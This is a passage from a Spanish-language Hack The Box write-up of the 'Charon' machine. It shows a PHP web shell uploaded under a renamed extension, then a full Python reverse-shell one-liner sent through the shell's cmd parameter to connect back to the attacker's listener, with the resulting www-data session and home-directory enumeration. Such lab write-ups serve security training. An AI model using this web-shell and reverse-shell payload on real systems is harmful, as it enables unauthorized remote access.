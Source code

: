 Y vemos que con dicho campo podemos modificar el nombre del archivo, por lo tanto podríamos subir nuevamente nuestra shell `shell.gif` y aprovechando el campo para cambiar la extensión.

![""](/assets/images/htb-charon/charon-web13.png)

Ahora vamos a validar en la ruta que se nos indica `/images/shell.php`:

![""](/assets/images/htb-charon/charon-web14.png)

Ya logramos ejecución de comandos a nivel de sistema, así que ahora nos queda es entablarnos una reverse shell, por lo que nos ponemos en escucha a través del puerto 443.

```bash
http://10.10.10.31/images/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.31] 56646
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya estamos dentro de la máquina, así que primero vamos a realizar un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar más cómodos. Vemos que no podemos visualizar la primera flag, así que vamos a enumerar un poco para ver la forma de migrar a otro usuario o escalar privilegios.

```bash
www-data@charon:/home/decoder$ ls -l
total 12
-rw-r--r-- 1 decoder freeeze 138 Jun 23  2017 decoder.pub
-rw-r--r-- 1 decoder freeeze  32 Jun 23  2017 pass.crypt
-r-------- 1 decoder freeeze  33 Jun 23  2017 user.txt
www-data@charon:/home/decoder$
```
